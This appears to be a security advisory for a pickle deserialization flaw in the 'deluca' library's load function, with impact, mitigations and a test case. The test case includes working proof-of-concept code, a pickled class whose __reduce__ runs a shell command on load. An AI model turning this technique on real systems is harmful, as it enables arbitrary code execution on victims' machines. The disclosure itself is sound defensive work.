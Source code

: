 - Vulnerability Name: Pickle Deserialization Vulnerability in Model Loading
- Description:
    - The `deluca.core.load` function is used to load Python objects from files. This function utilizes the `pickle.load` method from Python's `pickle` library.
    - An attacker can create a malicious file containing a pickled Python object.
    - This malicious pickled object can be designed to execute arbitrary code when it is deserialized using `pickle.load`.
    - If a user loads a model or data from an untrusted source using `deluca.core.load` and that source has been compromised or is malicious, the attacker's code will be executed on the user's system.
- Impact:
    - **Critical:** Remote Code Execution (RCE). Successful exploitation of this vulnerability allows an attacker to execute arbitrary Python code on the machine of a user who loads the malicious file. This can lead to complete system compromise, data theft, malware installation, or any other malicious action the attacker desires.
- Vulnerability Rank: critical
- Currently Implemented Mitigations:
    - None. The codebase directly employs `pickle.load` without any input validation, sanitization, or security measures to prevent deserialization of malicious data.
- Missing Mitigations:
    - **Replace `pickle` with a safer serialization format:** The most effective mitigation is to avoid using `pickle` for loading models or data from potentially untrusted sources. Consider using safer alternatives like:
        - **JSON:** Suitable for simple data structures and widely supported, but may not be adequate for complex Python objects.
        - **Protocol Buffers (protobuf):** A language-neutral, platform-neutral, extensible mechanism for serializing structured data. More robust and efficient than pickle, and designed with security in mind.
        - **MessagePack:** An efficient binary serialization format, also safer than pickle.
    - **Input Validation and Sanitization (If `pickle` must be used):** If replacing `pickle` is not feasible, rigorous input validation is crucial. However, this approach is generally discouraged for `pickle` due to its inherent insecurity:
        - **Verify the source of the file:** Ensure that files loaded using `deluca.core.load` originate from trusted sources only.
        - **Implement integrity checks:** Use cryptographic hashes to verify the integrity of the pickled file before loading.
        - **Restrict file access:** Limit the file system permissions of the application using `deluca.core.load` to minimize potential damage from malicious code execution.
    - **Sandboxing or Isolation (If `pickle` must be used):**  Execute `deluca.core.load` within a sandboxed or isolated environment. This can limit the damage if malicious code is executed, as the sandbox can restrict access to sensitive system resources and functionalities.
- Preconditions:
    - The attacker must be able to create a malicious pickled file.
    - A user must execute code that uses `deluca.core.load` to load this malicious file. This could occur if a user downloads a model from an untrusted source or if an attacker can somehow replace a legitimate model file with a malicious one.
- Source Code Analysis:
    - File: `/code/deluca/core.py`
    - Function: `load(path)`
    ```python
    import pickle

    def load(path):
      return pickle.load(open(path, "rb"))
    ```
    - The `load` function opens the file specified by `path` in binary read mode (`"rb"`) and directly passes the file object to `pickle.load()`.
    - `pickle.load()` deserializes the byte stream from the file and reconstructs Python objects in memory.
    - The `pickle` protocol is known to be vulnerable to arbitrary code execution because the pickled data can contain instructions for building arbitrary Python objects, including those that execute system commands or other malicious operations during the deserialization process.
    - There are no checks on the file's content or origin before `pickle.load()` is called, making the system vulnerable to loading malicious pickled files.

- Security Test Case:
    - Step 1: Create a malicious pickled file named `malicious_model.pkl`. This file will contain a pickled object that executes a system command when loaded.
        ```python
        import pickle
        import os

        class MaliciousModel:
            def __reduce__(self):
                # This command will create a file named 'pwned' in the /tmp directory
                return (os.system, ('touch /tmp/pwned',))

        malicious_model = MaliciousModel()
        with open('malicious_model.pkl', 'wb') as f:
            pickle.dump(malicious_model, f)
        ```
    - Step 2: Create a Python script `load_model.py` that uses `deluca.core.load` to load the `malicious_model.pkl` file.
        ```python
        from deluca.core import load

        model = load('malicious_model.pkl')
        print("Model loaded (or attempted to be loaded). Check for /tmp/pwned.")
        ```
    - Step 3: Run `load_model.py`.
        ```bash
        python load_model.py
        ```
    - Step 4: Check for successful exploitation. After running `load_model.py`, verify if the file `/tmp/pwned` has been created.
        ```bash
        ls /tmp/pwned
        ```
        - If the file `/tmp/pwned` exists, it indicates that the malicious code within `malicious_model.pkl` was successfully executed when `pickle.load` was called by `deluca.core.load`, confirming the vulnerability. If the command `ls /tmp/pwned` returns "ls: cannot access '/tmp/pwned': No such file or directory", then the vulnerability was not successfully exploited in this test environment. However, in a vulnerable environment, the file `/tmp/pwned` should be created.